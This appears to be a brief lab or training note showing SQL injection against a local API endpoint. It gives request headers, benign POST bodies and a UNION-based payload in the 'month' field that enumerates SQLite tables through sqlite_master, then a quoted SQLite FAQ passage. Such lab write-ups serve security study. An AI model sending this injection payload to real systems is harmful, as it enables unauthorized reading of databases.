

#### SQL Injection

```
http://192.168.1.22:8000/api/v1/activities/
```

- Header

```
Key : Content-Type
Value : application/json
```

```
Key : Accept
Value : application/json
```

- POST

```
{
	"month": "1"
}
```

```
{
	"month": "11"
}
```

```
{
	"month": "2"
}
```

```
{
	"month": "1 UNION SELECT 1,2,3,4,5,6,name FROM sqlite_master WHERE type='table';"
}
```

[``SQLITE FAQ``](https://sqlite.org/faq.html)

Every SQLite database has an ``SQLITE_MASTER`` table that defines the schema for the database

For tables, the type field will always be ``table`` and the name field will be the name of the table. So to get a list of all tables in the database, use the following ``SELECT`` command:

```sql
SELECT name FROM sqlite_master
WHERE type='table'
ORDER BY name;
```





